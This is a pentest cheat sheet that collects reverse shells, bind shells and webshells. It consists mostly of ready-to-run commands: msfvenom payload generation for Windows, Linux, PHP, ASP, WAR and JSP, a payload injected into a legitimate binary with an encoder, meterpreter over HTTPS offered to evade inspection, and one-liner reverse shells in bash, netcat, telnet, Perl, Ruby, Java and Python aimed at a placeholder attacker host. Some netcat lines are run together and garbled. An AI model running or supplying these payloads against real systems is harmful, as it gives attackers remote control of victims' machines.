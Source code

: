 # **Shells**

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:  
- [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)  
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## **Windows**

### **Meterpreter**

- #### **Standard meterpreter**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse.exe
```
```
use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
```

- #### **Meterpreter HTTPS**
It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=ip LPORT=443 -f exe -o met_https_reverse.exe
```

- #### **Non-staged payload**
```
msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse_tcp.exe
```
```
use exploit/multi/handlerset payload windows/shell_reverse_tcp
```

- #### **Staged payload**
```
This must be caught with metasploit. It does not work with netcat.
```
```
use exploit/multi/handlerset payload windows/shell/reverse_tcp
```

- #### **Inject payload into binary**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## **Linux**

- #### **Binary**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f elf > shell.elf
```

- #### **Bash**
```
0<&196;exec 196<>/dev/tcp/ip/80; sh <&196 >&196 2>&196
```
```
bash -i >& /dev/tcp/ip/8080 0>&1
```

- #### **Php**
```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## **Netcat**

- #### **Bind shell**
```
#Linuxnc -vlp 5555 -e /bin/bashnc ip 5555# Windowsnc.exe -nlvp 4444 -e cmd.exe
```

- #### **Reverse shell**
```
Linuxnc -lvp 5555nc ip 5555 -e /bin/bash# Windowsnc -lvp 443nc.exe ip 443 -e cmd.exe
```

- #### **With -e flag**
```
nc -e /bin/sh ATTACKING-IP 80
```
```
/bin/sh | nc ATTACKING-IP 80
```

- #### **Without -e flag**
```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## **Ncat**

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

- #### **Bind**
```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --sslncat -v ip 5555 --ssl
```

- #### **Telnet**
```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```
```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

- #### **Perl**
```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- #### **Ruby**
```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

- #### **Java**
```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

- #### **Python**
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### **Web-shells**

- #### **PHP**
This php-shell is OS-independent. You can use it on both Linux and Windows.
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.php
```

- #### **ASP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f asp > shell.asp
```

- #### **WAR**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f war > shell.war
```

- #### **JSP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.jsp
```

 
